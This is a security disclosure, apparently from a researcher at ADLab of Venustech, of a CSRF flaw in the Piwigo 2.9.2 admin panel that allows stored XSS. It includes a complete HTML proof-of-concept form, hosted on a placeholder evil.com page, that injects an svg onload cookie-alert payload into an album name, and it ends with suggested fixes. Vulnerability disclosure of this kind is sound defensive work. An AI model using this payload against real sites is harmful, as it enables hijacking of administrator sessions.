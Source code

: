 ### piwigo - XSS/CSRF vulnerability

#### ADLab of Venustech


Well,  when I pentest the latest version piwigo 2.9.2, I found some vulnerabilities here.

```
http://demo.com/piwigo/admin.php?page=album-3-properties
```

#### CSRF:

For example, the admin panel has no csrf protection here , we can do something evilly to the admin user.


##### XSS[stored xss]:

With the csrf , we can cheat the admin user to visit the evil webpage on the evil site:

```
http://evil.com/evil.htm
```

The xss poc content in the evil.htm:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://demo.com/piwigo/admin.php?page=album-3-properties" method="POST">
      <input type="hidden" name="name" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookie&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="comment" value="test" />
      <input type="hidden" name="parent" value="0" />
      <input type="hidden" name="visible" value="true" />
      <input type="hidden" name="commentable" value="true" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

At last, the admin user write evil stored-xss content to the admin panel by himself, and the evil attacker don't need to login into admin panel personally.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/piwigo/xss1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/piwigo/xss2.png)

We should add some sec-character-filter to the output of the site , even in the admin panel.
On the other hand, adding csrf protection to the important operation in the admin panel,is also needed to be considered.




